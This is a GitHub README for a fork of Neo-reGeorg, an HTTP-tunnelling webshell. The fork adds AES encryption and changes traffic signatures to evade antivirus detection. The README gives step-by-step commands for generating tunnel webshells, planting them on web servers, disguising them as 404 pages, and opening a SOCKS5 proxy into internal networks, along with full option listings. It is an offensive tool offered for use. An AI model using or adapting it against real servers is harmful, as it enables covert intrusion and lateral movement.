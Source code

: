 # PHP-Bypass_Neo-reGeorg

[简体中文](README.md)　｜　[English](README-en.md)

**本项目是基于Neo-reGeorg进行二次开发，对PHP木马添加了AES加密，修改了请求体和响应体特征,暂时只支持PHP的代理，其他语言的代理正在实现ing**

****
*****修改后请求体和响应体特征*****：
    ![img/img.png](img/img.png)
*****免杀效果：*****
    ![img/img_1.png](img/img_1.png)
    ![img/img_2.png](img/img_2.png)
****

**以下为原项目介绍：**

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高可用性，避免特征检测
* 提高 tunnel 连接安全性
* 提高传输内容保密性
* 应对更多的网络环境场景下使用

> 此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！


## Version

5.2.0 - [版本修改日志](CHANGELOG.md)


## Features

* 传输内容经过变形 base64 加密，伪装成 base64 编码
* 采用 BLV (Byte-LengthOffset-Value) 数据格式传输数据
* 直接请求响应可定制化 (如伪装的404页面)
* 支持 Request 模板
* HTTP Headers 可定制化
* 自定义 HTTP 响应码
* 多 URL 随机请求
* 服务端 DNS 解析
* 兼容 python2 / python3
* 服务端环境的高兼容性，如服务器不稳定、负载均衡下只在部分机器上部署了服务端等特殊情况
* (仅 php) 参考 [pivotnacci](https://github.com/blackarrowsec/pivotnacci) 实现单 Session 创建多 TCP 连接，应对部分负载均衡场景
* aspx/ashx/jsp/jspx 已不再依赖 Session，可在无 Cookie 等恶劣环境正常运行
* (非 php) 支持内网转发，应对负载均衡环境
* 支持进程形式启动服务端，应对更多场景


## Basic Usage

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.go
```

* **Step 2.**
使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```


## Advanced Usage

1. 支持生成的服务端，默认直接请求响应指定的页面内容 (如伪装的 404 页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端 WEB，需要设置代理才能访问
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需 Authorization 认证和定制的 Header 或 Cookie
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. 需要分散请求，可上传到多个路径上，如内存马
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

5. 开启内网转发，应对负载均衡
```ruby
$ python neoreg.py -k <you_password> -u <url> -r <redirect_url>
```

6. 使用端口转发功能，非启动 socks5 服务 ( 127.0.0.1:1080 -> ip:port )
```ruby
$ python neoreg.py -k <you_password> -u <url> -t <ip:port>
```

7. 设置请求内容模板 ( generate 的时候需要指定上)
```ruby
# 请求内容会替换到 NEOREGBODY 中
$ python3 neoreg.py -k password -T 'img=data:image/png;base64,NEOREGBODY&save=ok'
$ python3 neoreg.py -k password -T 'img=data:image/png;base64,NEOREGBODY&save=ok' -u http://127.0.0.1:8000/anysting

# NOTE 允许将模板内容写入文件中 -T file 即可
```

8. 支持创建进程另起 Neoreg 服务端，可应对恶劣的特殊环境 (自行脑补) :)
```ruby
$ go run neoreg_servers/tunnel.go 8000
$ python3 neoreg.py -k password -u http://127.0.0.1:8000/anysting
```

* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]
                     [--max-read-size KB]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      -c CODE, --httpcode CODE
                            Specify HTTP response code. When using -r, it is
                            recommended to <400 (default: 200)
      -T STR/FILE, --request-template STR/FILE
                            HTTP request template (eg:
                            'img=data:image/png;base64,NEOREGBODY&save=ok')
      --read-buff Bytes     Remote read buffer (default: 513)
      --max-read-size KB    Remote max read size (default: 512)

# 连接服务端
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI [-r URL] [-R] [-t IP:PORT] -k KEY [-l IP]
                     [-p PORT] [-s] [-H LINE] [-c LINE] [-x LINE]
                     [--php] [--php-connect-timeout S] [--local-dns] [--read-buff KB]
                     [--read-interval MS] [--write-interval MS] [--max-threads N]
                     [--max-retry N] [--cut-left N] [--cut-right N]
                     [--extract EXPR] [-v]

    Socks server for Neoreg HTTP(s) tunneller (DEBUG MODE: -k debug)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -r URL, --redirect-url URL
                            Intranet forwarding the designated server (only
                            java/.net)
      -R, --force-redirect  Forced forwarding (only -r)
      -t IP:PORT, --target IP:PORT
                            Network forwarding Target, After setting this
                            parameter, port forwarding will be enabled
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address (default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port (default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            Proto://host[:port] Use proxy on given port
      -T STR/FILE, --request-template STR/FILE
                            HTTP request template (eg:
                            'img=data:image/png;base64,NEOREGBODY&save=ok')
      --php                 Use php connection method
      --php-connect-timeout S
                            PHP connect timeout (default: 0.5)
      --local-dns           Use local resolution DNS
      --read-buff KB        Local read buffer, max data to be sent per POST
                            (default: 7, max: 50)
      --read-interval MS    Read data interval in milliseconds (default: 300)
      --write-interval MS   Write data interval in milliseconds (default: 200)
      --max-threads N       Proxy max threads (default: 400)
      --max-retry N         Proxy max threads (default: 10)
      --cut-left N          Truncate the left side of the response body
      --cut-right N         Truncate the right side of the response body
      --extract EXPR        Manually extract BODY content (eg:
                            <html><p>NEOREGBODY</p></html> )
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```


## Remind

* Mac OSX 上运行 `neoreg.py` 时，高并发请求会出现网络丢包情况，可通过 `ulimit -n 2560` 修改当前 shell 的 "最大文件打开数"



## License

GPL 3.0


## Star History Chart

[![Star History Chart](https://api.star-history.com/svg?repos=L-codes/Neo-reGeorg&type=Date)](https://star-history.com/#L-codes/Neo-reGeorg&Date)

<img align='right' src="https://profile-counter.glitch.me/neo-regeorg/count.svg" width="200">
